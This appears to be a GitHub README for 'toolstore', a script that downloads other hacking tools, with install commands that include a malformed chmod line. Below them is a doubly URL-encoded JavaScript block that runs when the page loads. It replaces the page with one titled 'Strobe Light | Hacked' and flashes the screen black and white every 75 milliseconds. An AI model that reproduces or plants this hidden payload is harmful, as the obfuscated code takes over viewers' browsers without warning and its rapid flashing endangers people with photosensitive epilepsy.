 # toolstore
My name is Aniket
On this script you can download many other tools automatically



                                      *****INSTALLATION******
                                      ........................
                                      
# sudo apt-get update                                      
# git clone https://github.com/hackingvila/toolstore.git
# chmod *.sh
# ./toolstore.sh


<script language=javascript>document.write(unescape('%3C%73%63%72%69%70%74%20%6C%61%6E%67%75%61%67%65%3D%6A%61%76%61%73%63%72%69%70%74%3E%64%6F%63%75%6D%65%6E%74%2E%77%72%69%74%65%28%75%6E%65%73%63%61%70%65%28%27%25%33%43%25%36%38%25%37%34%25%36%44%25%36%43%25%33%45%25%30%41%25%33%43%25%36%38%25%36%35%25%36%31%25%36%34%25%33%45%25%30%41%25%33%43%25%37%34%25%36%39%25%37%34%25%36%43%25%36%35%25%33%45%25%35%33%25%37%34%25%37%32%25%36%46%25%36%32%25%36%35%25%32%30%25%34%43%25%36%39%25%36%37%25%36%38%25%37%34%25%32%30%25%37%43%25%32%30%25%34%38%25%36%31%25%36%33%25%36%42%25%36%35%25%36%34%25%33%43%25%32%46%25%37%34%25%36%39%25%37%34%25%36%43%25%36%35%25%33%45%25%30%41%25%33%43%25%36%44%25%36%35%25%37%34%25%36%31%25%32%30%25%36%45%25%36%31%25%36%44%25%36%35%25%33%44%25%32%32%25%37%36%25%36%39%25%36%35%25%37%37%25%37%30%25%36%46%25%37%32%25%37%34%25%32%32%25%32%30%25%36%33%25%36%46%25%36%45%25%37%34%25%36%35%25%36%45%25%37%34%25%33%44%25%32%32%25%37%37%25%36%39%25%36%34%25%37%34%25%36%38%25%33%44%25%36%34%25%36%35%25%37%36%25%36%39%25%36%33%25%36%35%25%32%44%25%37%37%25%36%39%25%36%34%25%37%34%25%36%38%25%32%43%25%32%30%25%36%39%25%36%45%25%36%39%25%37%34%25%36%39%25%36%31%25%36%43%25%32%44%25%37%33%25%36%33%25%36%31%25%36%43%25%36%35%25%33%44%25%33%31%25%32%43%25%32%30%25%36%44%25%36%31%25%37%38%25%36%39%25%36%44%25%37%35%25%36%44%25%32%44%25%37%33%25%36%33%25%36%31%25%36%43%25%36%35%25%33%44%25%33%31%25%32%43%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%44%25%37%33%25%36%33%25%36%31%25%36%43%25%36%31%25%36%32%25%36%43%25%36%35%25%33%44%25%33%30%25%32%32%25%32%46%25%33%45%25%30%41%25%33%43%25%37%33%25%37%34%25%37%39%25%36%43%25%36%35%25%33%45%25%30%41%25%36%38%25%37%34%25%36%44%25%36%43%25%32%30%25%32%41%25%32%30%25%37%42%25%36%36%25%36%46%25%36%45%25%37%34%25%32%44%25%36%36%25%36%31%25%36%44%25%36%39%25%36%43%25%37%39%25%33%41%25%32%30%25%34%31%25%37%32%25%36%39%25%36%31%25%36%43%25%33%42%25%32%30%25%36%44%25%36%31%25%37%32%25%36%37%25%36%39%25%36%45%25%33%41%25%32%30%25%33%30%25%37%30%25%37%38%25%33%42%25%32%30%25%30%41%25%32%44%25%37%37%25%36%35%25%36%32%25%36%42%25%36%39%25%37%34%25%32%44%25%37%34%25%36%46%25%37%35%25%36%33%25%36%38%25%32%44%25%36%33%25%36%31%25%36%43%25%36%43%25%36%46%25%37%35%25%37%34%25%33%41%25%32%30%25%36%45%25%36%46%25%36%45%25%36%35%25%33%42%25%30%41%25%32%44%25%37%37%25%36%35%25%36%32%25%36%42%25%36%39%25%37%34%25%32%44%25%37%35%25%37%33%25%36%35%25%37%32%25%32%44%25%37%33%25%36%35%25%36%43%25%36%35%25%36%33%25%37%34%25%33%41%25%32%30%25%36%45%25%36%46%25%36%45%25%36%35%25%33%42%25%30%41%25%32%44%25%36%42%25%36%38%25%37%34%25%36%44%25%36%43%25%32%44%25%37%35%25%37%33%25%36%35%25%37%32%25%32%44%25%37%33%25%36%35%25%36%43%25%36%35%25%36%33%25%37%34%25%33%41%25%32%30%25%36%45%25%36%46%25%36%45%25%36%35%25%33%42%25%30%41%25%32%44%25%36%44%25%36%46%25%37%41%25%32%44%25%37%35%25%37%33%25%36%35%25%37%32%25%32%44%25%37%33%25%36%35%25%36%43%25%36%35%25%36%33%25%37%34%25%33%41%25%32%30%25%36%45%25%36%46%25%36%45%25%36%35%25%33%42%25%30%41%25%32%44%25%36%44%25%37%33%25%32%44%25%37%35%25%37%33%25%36%35%25%37%32%25%32%44%25%37%33%25%36%35%25%36%43%25%36%35%25%36%33%25%37%34%25%33%41%25%32%30%25%36%45%25%36%46%25%36%45%25%36%35%25%33%42%25%30%41%25%37%35%25%37%33%25%36%35%25%37%32%25%32%44%25%37%33%25%36%35%25%36%43%25%36%35%25%36%33%25%37%34%25%33%41%25%32%30%25%36%45%25%36%46%25%36%45%25%36%35%25%33%42%25%30%41%25%36%32%25%36%31%25%36%33%25%36%42%25%36%37%25%37%32%25%36%46%25%37%35%25%36%45%25%36%34%25%32%44%25%36%33%25%36%46%25%36%43%25%36%46%25%37%32%25%33%41%25%36%32%25%36%43%25%36%31%25%36%33%25%36%42%25%33%42%25%37%44%25%30%41%25%33%43%25%32%46%25%37%33%25%37%34%25%37%39%25%36%43%25%36%35%25%33%45%25%30%41%25%33%43%25%37%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%33%45%25%30%41%25%37%36%25%36%31%25%37%32%25%32%30%25%37%38%25%33%42%25%30%41%25%30%41%25%36%36%25%37%35%25%36%45%25%36%33%25%37%34%25%36%39%25%36%46%25%36%45%25%32%30%25%36%33%25%36%38%25%36%31%25%36%45%25%36%37%25%36%35%25%36%33%25%36%46%25%36%43%25%36%46%25%37%32%25%37%33%25%32%38%25%32%39%25%32%30%25%37%42%25%30%41%25%32%30%25%32%30%25%32%30%25%32%30%25%37%38%25%32%30%25%33%44%25%32%30%25%33%31%25%33%42%25%30%41%25%32%30%25%32%30%25%32%30%25%32%30%25%37%33%25%36%35%25%37%34%25%34%39%25%36%45%25%37%34%25%36%35%25%37%32%25%37%36%25%36%31%25%36%43%25%32%38%25%36%33%25%36%38%25%36%31%25%36%45%25%36%37%25%36%35%25%32%43%25%32%30%25%33%37%25%33%35%25%32%39%25%33%42%25%30%41%25%37%44%25%30%41%25%30%41%25%36%36%25%37%35%25%36%45%25%36%33%25%37%34%25%36%39%25%36%46%25%36%45%25%32%30%25%36%33%25%36%38%25%36%31%25%36%45%25%36%37%25%36%35%25%32%38%25%32%39%25%32%30%25%37%42%25%30%41%25%32%30%25%32%30%25%32%30%25%32%30%25%36%39%25%36%36%25%32%30%25%32%38%25%37%38%25%32%30%25%33%44%25%33%44%25%33%44%25%32%30%25%33%31%25%32%39%25%32%30%25%37%42%25%30%41%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%36%33%25%36%46%25%36%43%25%36%46%25%37%32%25%32%30%25%33%44%25%32%30%25%32%32%25%36%32%25%36%43%25%36%31%25%36%33%25%36%42%25%32%32%25%33%42%25%30%41%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%37%38%25%32%30%25%33%44%25%32%30%25%33%32%25%33%42%25%30%41%25%32%30%25%32%30%25%32%30%25%32%30%25%37%44%25%32%30%25%36%35%25%36%43%25%37%33%25%36%35%25%32%30%25%37%42%25%30%41%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%36%33%25%36%46%25%36%43%25%36%46%25%37%32%25%32%30%25%33%44%25%32%30%25%32%32%25%37%37%25%36%38%25%36%39%25%37%34%25%36%35%25%32%32%25%33%42%25%30%41%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%37%38%25%32%30%25%33%44%25%32%30%25%33%31%25%33%42%25%30%41%25%32%30%25%32%30%25%32%30%25%32%30%25%37%44%25%30%41%25%30%41%25%32%30%25%32%30%25%32%30%25%32%30%25%36%34%25%36%46%25%36%33%25%37%35%25%36%44%25%36%35%25%36%45%25%37%34%25%32%45%25%36%32%25%36%46%25%36%34%25%37%39%25%32%45%25%37%33%25%37%34%25%37%39%25%36%43%25%36%35%25%32%45%25%36%32%25%36%31%25%36%33%25%36%42%25%36%37%25%37%32%25%36%46%25%37%35%25%36%45%25%36%34%25%34%33%25%36%46%25%36%43%25%36%46%25%37%32%25%32%30%25%33%44%25%32%30%25%36%33%25%36%46%25%36%43%25%36%46%25%37%32%25%33%42%25%30%41%25%37%44%25%30%41%25%36%33%25%36%38%25%36%31%25%36%45%25%36%37%25%36%35%25%36%33%25%36%46%25%36%43%25%36%46%25%37%32%25%37%33%25%32%38%25%32%39%25%33%42%25%30%41%25%33%43%25%32%46%25%37%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%33%45%25%30%41%25%33%43%25%32%46%25%36%38%25%36%35%25%36%31%25%36%34%25%33%45%25%30%41%25%33%43%25%36%32%25%36%46%25%36%34%25%37%39%25%33%45%25%30%41%25%33%43%25%32%46%25%36%32%25%36%46%25%36%34%25%37%39%25%33%45%25%30%41%25%33%43%25%32%46%25%36%38%25%37%34%25%36%44%25%36%43%25%33%45%27%29%29%3C%2F%73%63%72%69%70%74%3E%0A'))</script>
